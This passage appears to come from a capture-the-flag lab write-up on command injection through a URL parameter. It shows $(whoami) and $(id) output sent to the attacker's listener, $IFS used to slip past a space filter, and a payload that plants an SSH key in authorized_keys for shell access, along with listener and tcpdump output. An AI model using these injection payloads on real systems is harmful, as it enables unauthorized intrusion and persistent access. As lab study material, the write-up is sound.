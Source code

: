 #### Command Injection POC

Now with both `nc` listening on 80 and `tcpdump` listening for ICMP, I crafted my next payload, `http://10.10.14.6/$(whoami)`, and it returned the username, web:

```
10.10.10.209 - - [01/Nov/2020 10:12:53] "GET /web HTTP/1.1" 404 -

```

If I change the command to `id`, I get up the first space, “uid=1001(web)”:

```
10.10.10.209 - - [01/Nov/2020 10:13:33] "GET /uid=1001(web) HTTP/1.1" 404 -

```

Trying to do more complex commands failed as it became clear that adding a space was breaking things. I tried using `$IFS` to represent space (a common injection technique), and eventually found that that plus a combination of `'` around the arguments could get it to work with something like:

```

http://10.10.14.6/$(ping$IFS-c$IFS'1'$IFS'10.10.14.6')

```

And I’d get a ping:

```

root@kali# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
10:16:12.333148 IP 10.10.10.209 > 10.10.14.6: ICMP echo request, id 3, seq 1, length 64
10:16:12.333176 IP 10.10.14.6 > 10.10.10.209: ICMP echo reply, id 3, seq 1, length 64

```

#### Shell via SSH

It took a bit of playing around with single quotes again, but I got the injection to write an SSH key to the current user, web (which I know from `whoami` injection). I’m using a ed25519 key (because they are really short). It turns out there is no `.ssh` directory in `/home/web`, so I’ll need to create one with:

```

http://10.10.14.6/$(mkdir$IFS'/home/web/.ssh')

```

Then I’ll write my key:

```

http://10.10.14.6/$(echo$IFS'ssh-ed25519'$IFS'AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d'>'/home/web/.ssh/authorized_keys')

```
